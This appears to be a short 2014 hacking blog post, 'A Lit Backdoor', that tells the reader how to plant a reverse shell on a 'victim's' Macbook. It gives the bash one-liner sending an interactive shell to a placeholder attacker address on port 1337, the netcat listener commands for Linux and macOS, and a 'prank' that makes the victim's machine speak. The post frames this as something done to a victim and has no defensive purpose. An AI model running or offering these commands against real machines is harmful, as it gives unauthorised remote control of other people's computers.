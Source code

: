 Title: A Lit Backdoor
Date: 2014-06-21 2:00
Category: Exploitation
Tags: Reverse_shell netcat

I was never a big fan of Macbooks. Being a penguin user for so long, you learn to stop worrying and love love the bomb. But here is a little trick that works for both.

In the victim's machine (presumably a macbook), create the reverse shell in the port 1337:

```bash
$ sh -i >& /dev/tcp/ATTACKERS_IP/1337 0>&1
```

Now just netcat to it. From a Linux machine:

```bash
$ nc -l -p 1337
```

Or from a Macbook:
```bash
$ nc -l 1337
```

You should get shell. A cute prank is making the victim's computer talk:

```bash
$ say Hacked
```

:)



----

**Love, Gratitude & Peace 🌺,**

**The Byt3girl**